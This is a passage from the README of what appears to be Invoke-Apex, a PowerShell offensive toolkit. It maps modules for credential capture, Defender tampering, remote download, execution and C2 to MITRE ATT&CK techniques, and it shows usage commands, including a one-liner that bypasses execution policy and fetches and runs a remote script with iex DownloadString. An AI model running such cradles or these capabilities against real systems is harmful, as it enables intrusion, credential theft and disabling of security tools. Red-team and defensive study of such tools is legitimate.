  |------------------------------------------------------------------|
 |           ### MITRE ATT&CK TECHNIQUE REFERENCE ###               |
 |------------------------------------------------------------------|

 <...snip...>

   Module: Invoke-Creds
   --------------------
   Mitre ATT&CK Ref: T1056 (Input Capture)
   Mitre ATT&CK Ref: T1081 (Credentials in Files)
   Mitre ATT&CK Ref: T1003 (Credential Dumping)
   
   
   Module: Invoke-DefenderTools
   ----------------------------
   Mitre ATT&CK Ref: T1211 (Exploitation for Defense Evasion)  
   Mitre ATT&CK Ref: T1089 (Disabling Security Tools)  
   
   
   Module: Invoke-Download
   -----------------------
   Mitre ATT&CK Ref: T1105 (Remote File Copy)   
   
   
   Module: Invoke-Execute
   ----------------------
   Mitre ATT&CK Ref: T1086 (PowerShell)                            
   Mitre ATT&CK Ref: T1085 (Rundll32)                              
   Mitre ATT&CK Ref: T1047 (Windows Management Instrumentation)    
   Mitre ATT&CK Ref: T1220 (XSL Script Processing)                 
   Mitre ATT&CK Ref: T1028 (Windows Remote Management)             
   Mitre ATT&CK Ref: T1218 (Signed Binary Proxy Execution)  

<...snip...>
```

You can also lookup which [Mitre ATT&CK](https://attack.mitre.org/) techniques are in use, and in which modules with the ```-Tid``` parameter and specifying a Mitre ATT&CK Technique ID as a value:

```PS> Invoke-MitreReference -Tid 1352```
```
PS> Invoke-MitreReference -Tid 1352

   Modules using Mitre ATT&CK Ref: T1352 (C2 Protocol Development):

   [+] Module: Invoke-Connect
   
```

## General Usage

### Importing the Toolkit
```PS> Import-Module .\Invoke-Apex.psd1```

All individual "modules" (cmdlets) can of course also be dot-sourced into the current session:

```PS> . .\Invoke-DefenderTools.ps1```

Or can be invoked using a traditional ```DownloadString``` cradle, etc:

```C:\> powershell -ep bypass -nop -noni "iex (New-Object Net.Webclient).DownloadString('https://server/Invoke-DefenderTools.ps1'); Invoke-DefenderTools -GetExcludes"```

### Listing all available functions
```PS> Invoke-Apex```
```
PS> Invoke-Apex
